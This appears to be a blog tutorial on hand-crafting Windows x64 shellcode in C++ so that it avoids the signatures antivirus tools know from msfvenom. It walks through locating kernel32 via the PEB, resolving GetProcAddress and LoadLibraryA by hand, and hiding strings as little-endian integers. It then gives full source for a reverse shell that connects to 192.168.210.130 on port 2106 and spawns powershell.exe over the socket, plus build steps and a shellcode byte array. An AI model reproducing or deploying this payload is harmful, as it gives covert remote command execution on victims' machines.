

# :skull: Craft Your Own Windows x86/64 Shellcode

---




*Shellcode structure on x86-64.*


# Craft Your Own Windows x86/64 Shellcode

Imagine trying to sneak past high-tech security systems using tools everyone recognizes. That’s the problem with popular frameworks like Metasploit’s msfvenom — their digital fingerprints are well-known. By creating custom shellcode in C++, we can create unique patterns that slip under the radar while gaining fine-grained control over our payload’s behavior.

## Windows Memory Fundamentals: The Process Diary

### What is PEB (Process Environment Block)?

PEB is a special structure in memory that stores important information about a running process (like its modules, settings, etc.). It is part of the EPROCESS structure, which is mostly hidden in kernel mode, but PEB can be accessed from user mode (meaning normal programs can use it).

### What is TEB (Thread Environment Block)?

Every running thread in a program has its own TEB (also called TIB — Thread Information Block). TEB contains details about that thread, including a way to find the PEB.

### How Do We Find the PEB?

Windows stores TEB in a special memory area called FS (for 32-bit) or GS (for 64-bit).

There is an offset (0x60 in GS for 64-bit) that points to the PEB address.

We use a function __readgsqword(0x60) to get the PEB address.

```
PPEB peb = (PPEB)__readgsqword(0x60);
```

## Retrieving the Loader Data Table (LDR) content

The PEB (Process Environment Block) contains a structure called PEB_LDR_DATA, which stores information about all loaded DLLs (modules) in a process.

```
typedef struct _PEB_LDR_DATA
{
ULONG Length;
UCHAR Initialized;
PVOID SsHandle;
LIST_ENTRY InLoadOrderModuleList;
LIST_ENTRY InMemoryOrderModuleList;
LIST_ENTRY InInitializationOrderModuleList;
PVOID EntryInProgress;
} PEB_LDR_DATA, *PPEB_LDR_DATA;

typedef struct _LIST_ENTRY
{
PLIST_ENTRY Flink;
PLIST_ENTRY Blink;
} LIST_ENTRY, *PLIST_ENTRY;
```

### Step 1: Finding PEB_LDR_DATA

- Inside PEB, there is a pointer to PEB_LDR_DATA, which holds details about loaded modules.

- PEB_LDR_DATA has a list of loaded DLLs stored in InMemoryOrderModuleList.

### Step 2: Understanding LIST_ENTRY

- `LIST_ENTRY` is a doubly linked list (meaning each item points to the next and previous item).

- This list helps us walk through all loaded DLLs in order.

### Step 3: What Modules Are Loaded?

- The first DLL is the process itself.

- The second is ntdll.dll (handles system calls).

- The third is kernel32.dll (provides Windows API functions).

## Traversing the `InMemoryOrderModuleList` to Print Loaded DLLs

We can walk through the linked list inside `InMemoryOrderModuleList` to find and print all loaded DLLs in a process.

## How It Works:

- Find the PEB using `__readgsqword(0x60)`.

- Get the `PEB_LDR_DATA` structure from the PEB.

- Access `InMemoryOrderModuleList`, which is a linked list of DLLs.

- Loop through the list and print each DLL name.

- Stop when we reach the first node again (to avoid infinite looping).

We need two key functions from Kernel32.dll:

GetProcAddress to find procedure addresses and LoadLibraryA to load modules. These functions are sufficient to build our payload.

This is where the LDR structure comes into play. It will allow us to find the address of Kernel32.dll and exploit its internal structures as a PE (Portable Executable) format object.

### DEMO CODE-

```
#include <windows.h>
#include <winternl.h>
#include <iostream>

using namespace std;

// Function to retrieve and print loaded DLLs
void PrintLoadedDLLs() {
// Retrieve PEB (Process Environment Block)
#ifdef _M_X64 // For 64-bit systems
PEB* peb = (PEB*)__readgsqword(0x60);
#else // For 32-bit systems
PEB* peb = (PEB*)__readfsdword(0x30);
#endif

if (!peb || !peb->Ldr) {
cout << "Error: Could not access PEB!" << endl;
return;
}

PEB_LDR_DATA* ldr = (PEB_LDR_DATA*)peb->Ldr;
LIST_ENTRY* listHead = &ldr->InMemoryOrderModuleList;
LIST_ENTRY* listEntry = listHead->Flink;

cout << "Loaded DLLs in the current process:" << endl;

while (listEntry != listHead) {
LDR_DATA_TABLE_ENTRY* entry = CONTAINING_RECORD(listEntry, LDR_DATA_TABLE_ENTRY, InMemoryOrderLinks);

if (entry->FullDllName.Buffer) {
wcout << L" - " << entry->FullDllName.Buffer << endl;
}

listEntry = listEntry->Flink; // Move to the next module
}
}

int main() {
PrintLoadedDLLs();
return 0;
}
```

## Parsing the Kernel32 PE object

Windows programs use DLL files to perform tasks like reading files, creating windows, or using the internet.

One of the most important DLLs is Kernel32.dll, which contains many useful functions.

### Step-by-Step Breakdown

### Step 1: Find Kernel32.dll in Memory

Windows loads DLLs in a list inside the PEB (Process Environment Block).

- The 1st item in the list = the program itself.

- The 2nd item = ntdll.dll (handles system calls).

- The 3rd item = kernel32.dll (where we want to go).

To get Kernel32.dll’s entry, we move three steps in the list:

```
PLDR_DATA_TABLE_ENTRY kernel32Entry = CONTAINING_RECORD(
peb->Ldr->InMemoryOrderModuleList.Flink->Flink->Flink,
LDR_DATA_TABLE_ENTRY,
InMemoryOrderLinks
);
```

This gives us a pointer to Kernel32.dll in memory.

### Step 2: Get the Start Address of Kernel32.dll

Every DLL has a starting memory address (DllBase).

We store this address in a variable:

```
PIMAGE_DOS_HEADER kernel32DosHeader = (PIMAGE_DOS_HEADER)kernel32Entry->DllBase;
```

This is like finding the first page of a book before reading its contents.

### Step 3: Locate the Important Headers

Windows programs follow a Portable Executable (PE) format.

The real structure of the program starts at an offset called `e_lfanew`.

We move to that location:

```
PIMAGE_NT_HEADERS64 kernel32NtHeader = (PIMAGE_NT_HEADERS64)(
(BYTE*)kernel32DosHeader + kernel32DosHeader->e_lfanew
);
```

This is like skipping past the cover of a book to its table of contents.

### Step 4: Find the List of Functions Inside Kernel32.dll

The Export Table in Kernel32.dll contains all function names & their locations.

We get its address like this:

```
PIMAGE_EXPORT_DIRECTORY kernel32ExportsTable = (PIMAGE_EXPORT_DIRECTORY)(
(BYTE*)kernel32DosHeader +
kernel32NtHeader->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress
);
```

This is like opening the index page of a book to see where each chapter (function) is located.

### Step 5: Get the Function Names & Addresses

We now extract the actual function names and their memory locations:

```
DWORD* kernel32addressOfFunctions = (DWORD*)((BYTE*)kernel32DosHeader + kernel32ExportsTable->AddressOfFunctions);
DWORD* kernel32addressOfNames = (DWORD*)((BYTE*)kernel32DosHeader + kernel32ExportsTable->AddressOfNames);
WORD* kernel32addressOfNameOrdinals = (WORD*)((BYTE*)kernel32DosHeader + kernel32ExportsTable->AddressOfNameOrdinals);
```

- `AddressOfFunctions` → List of function memory addresses

- `AddressOfNames` → List of function names

- `AddressOfNameOrdinals` → Links function names to their addresses

### DEMO CODE-

```
#include <windows.h>
#include <winternl.h>
#include <iostream>

using namespace std;

// Function to find Kernel32.dll inside the loaded modules
PVOID FindKernel32Base() {
#ifdef _M_X64
PPEB peb = (PPEB)__readgsqword(0x60); // Get PEB for 64-bit Windows
#else
PPEB peb = (PPEB)__readfsdword(0x30); // Get PEB for 32-bit Windows
#endif

// Find the 3rd module in the list (Kernel32.dll)
PLDR_DATA_TABLE_ENTRY kernel32Entry = CONTAINING_RECORD(
peb->Ldr->InMemoryOrderModuleList.Flink->Flink->Flink,
LDR_DATA_TABLE_ENTRY, InMemoryOrderLinks
);

return kernel32Entry->DllBase; // Return base address of Kernel32.dll
}

// Function to find GetProcAddress inside Kernel32
FARPROC FindGetProcAddress() {
PBYTE kernel32Base = (PBYTE)FindKernel32Base(); // Get Kernel32.dll base address

// Parse PE headers
PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)kernel32Base;
PIMAGE_NT_HEADERS64 ntHeaders = (PIMAGE_NT_HEADERS64)(kernel32Base + dosHeader->e_lfanew);
PIMAGE_EXPORT_DIRECTORY exportTable = (PIMAGE_EXPORT_DIRECTORY)(
kernel32Base + ntHeaders->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress
);

// Get function address and name tables
DWORD* addressOfFunctions = (DWORD*)(kernel32Base + exportTable->AddressOfFunctions);
DWORD* addressOfNames = (DWORD*)(kernel32Base + exportTable->AddressOfNames);
WORD* addressOfNameOrdinals = (WORD*)(kernel32Base + exportTable->AddressOfNameOrdinals);

// Loop through exported functions to find "GetProcAddress"
for (DWORD i = 0; i < exportTable->NumberOfNames; i++) {
char* functionName = (char*)(kernel32Base + addressOfNames[i]);

if (strcmp(functionName, "GetProcAddress") == 0) { // Found "GetProcAddress"
return (FARPROC)(kernel32Base + addressOfFunctions[addressOfNameOrdinals[i]]);
}
}

return NULL; // Return NULL if not found
}

int main() {
FARPROC getProcAddr = FindGetProcAddress();

if (getProcAddr) {
cout << "GetProcAddress found at: " << getProcAddr << endl;
}
else {
cout << "Error: GetProcAddress not found!" << endl;
}

return 0;
}
```

## Finding GetProcAddress and Storing Strings in Shellcode

### Why Do We Need GetProcAddress?

Windows normally loads functions using GetProcAddress(), but we are finding it manually inside Kernel32.dll.

## Get Itz.sanskarr’s stories in your inbox

Join Medium for free to get updates from this writer.

Remember me for faster sign in

Once we get GetProcAddress(), we can use it to find any function we need, like LoadLibraryA(), which helps us load extra DLLs.

### Problem: Storing Strings Inside Shellcode

When we convert our program to shellcode, everything must be self-contained in the .text section.

- We can’t use normal string variables (char*) because they might end up in a different section of memory.

- Instead, we store strings as numbers (uint64_t) in little-endian format (backward order).

### Storing Function Names as Hexadecimal Numbers

We store function names in 8-byte (64-bit) chunks as uint64_t values.

### Example: Storing “GetProcA”

- ASCII representation:G e t P r o c A47 65 74 50 72 6F 63 41 (Hex values)

- Stored as a number:(Reversed because of little-endian format)

```
uint64_t GetProcA = 0x41636F7250746547;
```

### ​Example: Storing “User32.dll”

- ASCII representation:U s e r 3 2 . d l l75 73 65 72 33 32 2E 64 6C 6C

- Stored in two 64-bit values:The last part is padded with 0x00 to fit 8 bytes.

```

struct {
uint64_t t0, t1;
} text;

text.t0 = 0x642E323372657375; // "User32.d"
text.t1 = 0x0000000000006C6C; // "ll"

```

### DEMO CODE-

```
#include <windows.h>
#include <winternl.h>
#include <iostream>

using namespace std;

// Little-endian encoded function names
#define GETPROC_STR 0x41636F7250746547 // "GetProcA" in hex
#define LOADLIB_STR 0x41797261 // "LoadLibA" (last bytes only)

PVOID FindKernel32Base() {
#ifdef _M_X64
PPEB peb = (PPEB)__readgsqword(0x60); // Get PEB for 64-bit Windows
#else
PPEB peb = (PPEB)__readfsdword(0x30); // Get PEB for 32-bit Windows
#endif

// Locate Kernel32.dll (3rd module)
PLDR_DATA_TABLE_ENTRY kernel32Entry = CONTAINING_RECORD(
peb->Ldr->InMemoryOrderModuleList.Flink->Flink->Flink,
LDR_DATA_TABLE_ENTRY, InMemoryOrderLinks
);

return kernel32Entry->DllBase;
}

// Function to find GetProcAddress dynamically
FARPROC FindGetProcAddress() {
PBYTE kernel32Base = (PBYTE)FindKernel32Base();

// Parse PE headers
PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)kernel32Base;
PIMAGE_NT_HEADERS64 ntHeaders = (PIMAGE_NT_HEADERS64)(kernel32Base + dosHeader->e_lfanew);
PIMAGE_EXPORT_DIRECTORY exportTable = (PIMAGE_EXPORT_DIRECTORY)(
kernel32Base + ntHeaders->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress
);

// Get function address and name tables
DWORD* addressOfFunctions = (DWORD*)(kernel32Base + exportTable->AddressOfFunctions);
DWORD* addressOfNames = (DWORD*)(kernel32Base + exportTable->AddressOfNames);
WORD* addressOfNameOrdinals = (WORD*)(kernel32Base + exportTable->AddressOfNameOrdinals);

// Loop through exported functions to find "GetProcAddress"
for (DWORD i = 0; i < exportTable->NumberOfNames; i++) {
char* functionName = (char*)(kernel32Base + addressOfNames[i]);

// Check if the first 8 bytes match "GetProcA" in little-endian
if (*(uint64_t*)functionName == GETPROC_STR) {
return (FARPROC)(kernel32Base + addressOfFunctions[addressOfNameOrdinals[i]]);
}
}

return NULL;
}

int main() {
// Get GetProcAddress dynamically
FARPROC getProcAddr = FindGetProcAddress();
if (!getProcAddr) {
cout << "Error: GetProcAddress not found!" << endl;
return -1;
}
cout << "GetProcAddress found at: " << getProcAddr << endl;

// Use GetProcAddress to find LoadLibraryA
typedef HMODULE(WINAPI* LoadLibA_t)(LPCSTR);
LoadLibA_t LoadLibraryA_ptr = (LoadLibA_t)((FARPROC(*)(HMODULE, LPCSTR))getProcAddr)(
(HMODULE)FindKernel32Base(), "LoadLibraryA"
);

if (!LoadLibraryA_ptr) {
cout << "Error: LoadLibraryA not found!" << endl;
return -1;
}
cout << "LoadLibraryA found at: " << (void*)LoadLibraryA_ptr << endl;

// Use LoadLibraryA to load User32.dll (as an example)
HMODULE user32 = LoadLibraryA_ptr("User32.dll");
if (!user32) {
cout << "Error loading User32.dll!" << endl;
return -1;
}
cout << "User32.dll loaded at: " << user32 << endl;

return 0;
}
```

## Let’s step up our game

Now, we want to find the address of `GetProcAddress` so that we can use it to find other important functions like `LoadLibraryA`.

### Step 1: What is `GetProcAddress`?

`GetProcAddress` is a function in Windows that helps us find the memory address of other functions inside a DLL.

Here’s how it’s defined in Windows:

```

FARPROC GetProcAddress(
[in] HMODULE hModule, // Handle to a loaded DLL
[in] LPCSTR lpProcName // Name of the function we want to find
);

```

What it does:

- We give it a DLL handle (`hModule`) and a function name (`lpProcName`).

- It returns the memory address of that function so we can use it.

### Step 2: Creating a Function Pointer for GetProcAddress

Since we don’t know GetProcAddress’s location yet, we need to define a function pointer so we can store its address later:

```

typedef FARPROC (*_GetProcAddress)(HMODULE, LPCSTR);
_GetProcAddress GetProcAddress = nullptr; // Pointer to store the function address

```

Why do we need this?

- `_GetProcAddress` is just a custom type for a function pointer that matches `GetProcAddress`'s signature.

- `GetProcAddress = nullptr;` means we haven’t found the function yet.

### Step 3: Searching for `GetProcAddress` in Kernel32.dll

- We loop through Kernel32.dll’s export table to find a function whose name starts with `"GetProcA"`.

- This tells us where `GetProcAddress` is in memory.

```

for (DWORD i = 0; i < kernel32ExportsTable->NumberOfNames; i++) {
DWORD functionRVA = kernel32addressOfFunctions[i];
const char* functionName = (const char*)((BYTE*)kernel32DosHeader + functionRVA);
const char* exportedName = (const char*)((BYTE*)kernel32DosHeader + kernel32addressOfNames[i]);

if (*(uint64_t *)((size_t)kernel32DosHeader + kernel32addressOfNames[i]) == GetProcA) {
GetProcAddress = (_GetProcAddress)(const void*)((size_t)kernel32DosHeader + kernel32addressOfFunctions[kernel32addressOfNameOrdinals[i]]);
}
}

```

What’s happening here?

- We loop through all exported functions in Kernel32.dll.

- We check their names to see if any match `"GetProcA"` (first 8 bytes of `"GetProcAddress"`).

- If we find it, we store its address in `GetProcAddress`.

### Step 4: Using `GetProcAddress` to Find Other Functions

Now that we have `GetProcAddress`, we can use it to find the address of `LoadLibraryA`:

```

HMODULE hKernel32 = (HMODULE)kernel32DosHeader;
_LoadLibraryA LoadLibraryA = (_LoadLibraryA)GetProcAddress(hKernel32, "LoadLibraryA");

```

Why is `LoadLibraryA` important?

- `LoadLibraryA` lets us load more DLLs into memory, such as:

- `User32.dll` (for GUI functions)

- `Ws2_32.dll` (for networking, used in reverse shells)

### DEMO CODE-

```
#include <windows.h>
#include <winternl.h>
#include <iostream>

using namespace std;

typedef FARPROC(WINAPI* _GetProcAddress)(HMODULE, LPCSTR);

int main() {
// Step 1: Get PEB (Process Environment Block)
#ifdef _M_X64 // 64-bit
PEB* peb = (PEB*)__readgsqword(0x60);
#else // 32-bit
PEB* peb = (PEB*)__readfsdword(0x30);
#endif

// Step 2: Get Kernel32.dll Entry from PEB_LDR_DATA
PLIST_ENTRY moduleList = &peb->Ldr->InMemoryOrderModuleList;
PLIST_ENTRY entry = moduleList->Flink->Flink->Flink; // Third entry is Kernel32.dll
PLDR_DATA_TABLE_ENTRY kernel32Entry = CONTAINING_RECORD(entry, LDR_DATA_TABLE_ENTRY, InMemoryOrderLinks);

// Step 3: Parse Kernel32.dll as a PE (Portable Executable)
PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)kernel32Entry->DllBase;
PIMAGE_NT_HEADERS ntHeaders = (PIMAGE_NT_HEADERS)((BYTE*)dosHeader + dosHeader->e_lfanew);
PIMAGE_EXPORT_DIRECTORY exportsTable = (PIMAGE_EXPORT_DIRECTORY)((BYTE*)dosHeader +
ntHeaders->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress);

// Step 4: Get the Export Address Table
DWORD* addressOfFunctions = (DWORD*)((BYTE*)dosHeader + exportsTable->AddressOfFunctions);
DWORD* addressOfNames = (DWORD*)((BYTE*)dosHeader + exportsTable->AddressOfNames);
WORD* addressOfNameOrdinals = (WORD*)((BYTE*)dosHeader + exportsTable->AddressOfNameOrdinals);

// Step 5: Search for "GetProcAddress" function
_GetProcAddress GetProcAddress = nullptr;
uint64_t GetProcA = 0x41636F7250746547; // "GetProcA" in little-endian format

for (DWORD i = 0; i < exportsTable->NumberOfNames; i++) {
const char* exportedName = (const char*)((BYTE*)dosHeader + addressOfNames[i]);

if (*(uint64_t*)exportedName == GetProcA) { // Compare first 8 bytes
GetProcAddress = (_GetProcAddress)((BYTE*)dosHeader + addressOfFunctions[addressOfNameOrdinals[i]]);
break;
}
}

if (GetProcAddress) {
cout << "[+] GetProcAddress found at: " << (void*)GetProcAddress << endl;

// Step 6: Use GetProcAddress to find LoadLibraryA
HMODULE kernel32Handle = (HMODULE)kernel32Entry->DllBase;
FARPROC LoadLibraryA_Addr = GetProcAddress(kernel32Handle, "LoadLibraryA");

if (LoadLibraryA_Addr) {
cout << "[+] LoadLibraryA found at: " << (void*)LoadLibraryA_Addr << endl;
} else {
cout << "[-] Failed to locate LoadLibraryA!" << endl;
}
} else {
cout << "[-] Failed to locate GetProcAddress!" << endl;
}

return 0;
}
```

## Here is the full source code of the malicious payload that establish a reverse shell to 192.168.210.130 on TCP port 2106 on a powershell handle

```
#include <WinSock2.h>
#include <windows.h>
#include <winternl.h>
#include <ws2tcpip.h>
#include <cstdint>

__declspec(noinline) void customshellcode() {

WSAData wsadata;
struct sockaddr_in sock_addr;
STARTUPINFO si;
PROCESS_INFORMATION pi;
HMODULE ntdll;
HMODULE user32;
HMODULE ws2_32;
HMODULE kernel32;

PPEB peb = (PPEB)__readgsqword(0x60); // gs 0x60 & fs 0x30

PPEB_LDR_DATA peb_ldr_data = (PPEB_LDR_DATA)peb->Ldr;

PLDR_DATA_TABLE_ENTRY ntdllEntry = CONTAINING_RECORD(peb->Ldr->InMemoryOrderModuleList.Flink->Flink, LDR_DATA_TABLE_ENTRY, InMemoryOrderLinks);

PIMAGE_DOS_HEADER ntdllDosHeader = (PIMAGE_DOS_HEADER)ntdllEntry->DllBase;
ntdll = (HMODULE)ntdllDosHeader;

PLDR_DATA_TABLE_ENTRY kernel32Entry = CONTAINING_RECORD(peb->Ldr->InMemoryOrderModuleList.Flink->Flink->Flink, LDR_DATA_TABLE_ENTRY, InMemoryOrderLinks);

PIMAGE_DOS_HEADER kernel32DosHeader = (PIMAGE_DOS_HEADER)kernel32Entry->DllBase;
PIMAGE_NT_HEADERS64 kernel32NtHeader = (PIMAGE_NT_HEADERS64)((BYTE*)kernel32DosHeader + kernel32DosHeader->e_lfanew);
PIMAGE_EXPORT_DIRECTORY kernel32ExportsTable = (PIMAGE_EXPORT_DIRECTORY)((BYTE*)kernel32DosHeader + kernel32NtHeader->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress);

DWORD* kernel32addressOfFunctions = (DWORD*)((BYTE*)kernel32DosHeader + kernel32ExportsTable->AddressOfFunctions);
DWORD* kernel32addressOfNames = (DWORD*)((BYTE*)kernel32DosHeader + kernel32ExportsTable->AddressOfNames);
WORD* kernel32addressOfNameOrdinals = (WORD*)((BYTE*)kernel32DosHeader + kernel32ExportsTable->AddressOfNameOrdinals);

struct {
uint64_t t0, t1;
} text;

// Ntdll
typedef void (*_memset)(void*, int, size_t);

// User32
typedef int (*_MessageBox)(HWND, LPCTSTR, LPCTSTR, UINT);

// Winsock
typedef int (*_WSAStartup)(WORD, LPWSADATA);
typedef SOCKET(*_WSASocketA)(int, int, int, LPWSAPROTOCOL_INFOA, GROUP, DWORD);
typedef int (*_WSAConnect)(SOCKET, const sockaddr*, int, LPWSABUF, LPWSABUF, LPQOS, LPQOS);
typedef int (*_send)(SOCKET, const char*, int, int);
typedef int (*_recv)(SOCKET, char*, int, int);
typedef u_short(*_htons)(u_short);
typedef unsigned long(*_inet_addr)(const char*);

// Kernel32
typedef FARPROC(*_GetProcAddress)(HMODULE, LPCSTR);
typedef HMODULE(*_LoadLibraryA)(LPCSTR);
typedef BOOL(*_CreateProcessA)(LPCSTR, LPCSTR, LPSECURITY_ATTRIBUTES, LPSECURITY_ATTRIBUTES, BOOL, DWORD, LPVOID, LPCSTR, LPSTARTUPINFOA, LPPROCESS_INFORMATION);

_GetProcAddress GetProcAddress = nullptr;
_LoadLibraryA LoadLibraryA = nullptr;
_MessageBox MessageBox = nullptr;
_WSAStartup WSAStartup = nullptr;
_WSASocketA WSASocketA = nullptr;
_WSAConnect WSAConnect = nullptr;
_send send = nullptr;
_recv recv = nullptr;
_memset memset = nullptr;
_htons htons = nullptr;
_inet_addr inet_addr = nullptr;
_CreateProcessA CreateProcessA = nullptr;

for (DWORD i = 0; i < kernel32ExportsTable->NumberOfNames; i++) {

DWORD functionRVA = kernel32addressOfFunctions[i];
const char* functionName = (const char*)((BYTE*)kernel32DosHeader + functionRVA);
const char* exportedName = (const char*)((BYTE*)kernel32DosHeader + kernel32addressOfNames[i]);

// GetProcAddress
// 47 65 74 50 72 6F 63 41
// 64 64 72 65 73 73
uint64_t GetProcA = 0x41636F7250746547;
if (*(uint64_t*)((size_t)kernel32DosHeader + kernel32addressOfNames[i]) == GetProcA) {

GetProcAddress = (_GetProcAddress)(const void*)((size_t)kernel32DosHeader + kernel32addressOfFunctions[kernel32addressOfNameOrdinals[i]]);

// LoadLibraryA
// 4C 6F 61 64 4C 69 62 72
// 61 72 79 41
text.t0 = 0x7262694C64616F4C;
text.t1 = 0x0000000041797261;

kernel32 = (HMODULE)kernel32DosHeader;
LoadLibraryA = (_LoadLibraryA)GetProcAddress(kernel32, (LPSTR)&text.t0);

// User32.dll
// 75 73 65 72 33 32 2E 64
// 6C 6C
text.t0 = 0x642E323372657375;
text.t1 = 0x0000000000006C6C;
user32 = LoadLibraryA((const char*)&text.t0);

// LoadLibraryA
// 4D 65 73 73 61 67 65 42
// 6F 78 41
text.t0 = 0x426567617373654D;
text.t1 = 0x000000000041786F;
MessageBox = (_MessageBox)GetProcAddress(user32, (LPSTR)&text.t0);

// Ws2_32.dll
// 57 73 32 5F 33 32 2E 64
// 6C 6C
text.t0 = 0x642E32335F327357;
text.t1 = 0x0000000000006C6C;
ws2_32 = LoadLibraryA((const char*)&text.t0);

// WSAStartup
// 57 53 41 53 74 61 72 74
// 75 70
text.t0 = 0x7472617453415357;
text.t1 = 0x0000000000007075;
WSAStartup = (_WSAStartup)GetProcAddress((HMODULE)ws2_32, (const char*)&text.t0);

// WSASocketA
// 57 53 41 53 6F 63 6B 65
// 74 41
text.t0 = 0x656B636F53415357;
text.t1 = 0x0000000000004174;
WSASocketA = (_WSASocketA)GetProcAddress((HMODULE)ws2_32, (const char*)&text.t0);

// WSAConnect
// 57 53 41 43 6F 6E 6E 65
// 63 74
text.t0 = 0x656E6E6F43415357;
text.t1 = 0x0000000000007463;
WSAConnect = (_WSAConnect)GetProcAddress((HMODULE)ws2_32, (const char*)&text.t0);

// memset
// 6D 65 6D 73 65 74
text.t0 = 0x00007465736D656D;
text.t1 = 0x0000000000000000;
memset = (_memset)GetProcAddress((HMODULE)ntdll, (const char*)&text.t0);

// send
// 73 65 6E 64
text.t0 = 0x00000000646E6573;
send = (_send)GetProcAddress((HMODULE)ws2_32, (const char*)&text.t0);

// recv
// 72 65 63 76
text.t0 = 0x0000000076636572;
recv = (_recv)GetProcAddress((HMODULE)ws2_32, (const char*)&text.t0);

// htons
// 68 74 6F 6E 73
text.t0 = 0x000000736E6F7468;
htons = (_htons)GetProcAddress((HMODULE)ws2_32, (const char*)&text.t0);

// inet_addr
// 69 6E 65 74 5F 61 64 64
// 72
text.t0 = 0x6464615F74656E69;
text.t1 = 0x0000000000000072;
inet_addr = (_inet_addr)GetProcAddress((HMODULE)ws2_32, (const char*)&text.t0);

// CreateProcessA
// 43 72 65 61 74 65 50 72
// 6F 63 65 73 73 41
text.t0 = 0x7250657461657243;
text.t1 = 0x000041737365636F;
CreateProcessA = (_CreateProcessA)GetProcAddress((HMODULE)kernel32, (const char*)&text.t0);

break;
}
}

// Reverse shell inspired by https://cocomelonc.github.io/tutorial/2021/09/15/simple-rev-c-1.html by @cocomelonc

int init = WSAStartup(MAKEWORD(2, 2), &wsadata);
SOCKET sock = WSASocketA(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, (unsigned int)NULL, (unsigned int)NULL);

// 2106
// 08 3A
text.t0 = 0x83A;
text.t1 = 0x0000000000000000;

short port = static_cast<short>(text.t0);
sock_addr.sin_family = AF_INET;
sock_addr.sin_port = htons(port);

// 172.19.192.197
// 31 37 32 2E 31 39 2E 31
// 39 32 2E 31 39 37
text.t0 = 0x2E3836312E323931; // "192.168"
text.t1 = 0x003033312E303132; // "210.130"

sock_addr.sin_addr.s_addr = inet_addr((const char*)&text.t0);

int conn = WSAConnect(sock, (SOCKADDR*)&sock_addr, sizeof(sock_addr), NULL, NULL, NULL, NULL);
memset(&si, 0, sizeof(si));

si.cb = sizeof(si);
si.dwFlags = STARTF_USESTDHANDLES;
si.hStdInput = si.hStdOutput = si.hStdError = (HANDLE)sock;

// powershell.exe
// 70 6F 77 65 72 73 68 65
// 6C 6C 2E 65 78 65
text.t0 = 0x6568737265776F70;
text.t1 = 0x00006578652E6C6C;

CreateProcessA(NULL, (const char*)&text.t0, NULL, NULL, TRUE, 0, NULL, NULL, (LPSTARTUPINFOA)&si, &pi);
}

int main() {

customshellcode();
return 0;
}
```

## Payload conversion to shellcode

First, make sure that we are in release mode and choose the build target (x64 or x32).

Do not be in Debug mode, as Visual Studio may add certain symbols and background instructions that will alter the uniformity of the assembly code and its independence.

Next, ensure that you disable the /GS option in the compilation settings. This option adds security cookies to the binary code, which could also affect the independence of the shellcode.

Then, set a breakpoint on the function that contains your payload. In my case, it is named customshellcode().

Then launch the program with the Visual Studio local debugger. The program execution will stop at the breakpoint you have set. Now, press Ctrl+Alt+D to open the disassembly view of your code.

## POC-

```
#include <Windows.h>

int main() {
// Shellcode (unsigned char array)
unsigned char buf[] =
"\x48\x89\x5C\x24\x20\x55\x56\x57\x41\x54\x41\x55\x41\x56\x41\x57"
"\x48\x8D\xAC\x24\x60\xFE\xFF\xFF\x48\x81\xEC\xA0\x02\x00\x00\x65"
"\x48\x8B\x04\x25\x60\x00\x00\x00\x33\xDB\x44\x8B\xF3\x48\x89\x9D"
"\xE0\x01\x00\x00\x44\x8B\xFB\x48\x89\x9D\xE8\x01\x00\x00\x44\x8B"
"\xE3\x44\x8B\xEB\x48\x8B\x48\x18\x8B\xFB\x8B\xD3\x48\x8B\x41\x20"
"\x48\x8B\x00\x48\x8B\x48\x20\x48\x8B\x00\x48\x89\x8D\xF0\x01\x00"
"\x00\x48\x8B\x70\x20\x48\x63\x46\x3C\x8B\x8C\x30\x88\x00\x00\x00"
"\x48\x03\xCE\x44\x8B\x49\x1C\x8B\x41\x20\x4C\x03\xCE\x44\x8B\x51"
"\x24\x48\x03\xC6\x44\x8B\x41\x18\x4C\x03\xD6\x45\x85\xC0\x0F\x84"
"\xF5\x01\x00\x00\x49\xBB\x47\x65\x74\x50\x72\x6F\x63\x41\x66\x90"
"\x8B\x08\x4C\x39\x1C\x31\x74\x10\xFF\xC2\x48\x83\xC0\x04\x41\x3B"
"\xD0\x72\xED\xE9\xD1\x01\x00\x00\x8B\xC2\x48\x8D\x54\x24\x50\x41"
"\x0F\xB7\x0C\x42\x48\xB8\x4C\x6F\x61\x64\x4C\x69\x62\x72\x41\x8B"
"\x3C\x89\x48\x8B\xCE\x48\x03\xFE\x48\x89\x44\x24\x50\x48\xC7\x44"
"\x24\x58\x61\x72\x79\x41\xFF\xD7\x48\x8B\xD8\x48\xC7\x44\x24\x58"
"\x6C\x6C\x00\x00\x48\xB8\x75\x73\x65\x72\x33\x32\x2E\x64\x48\x8D"
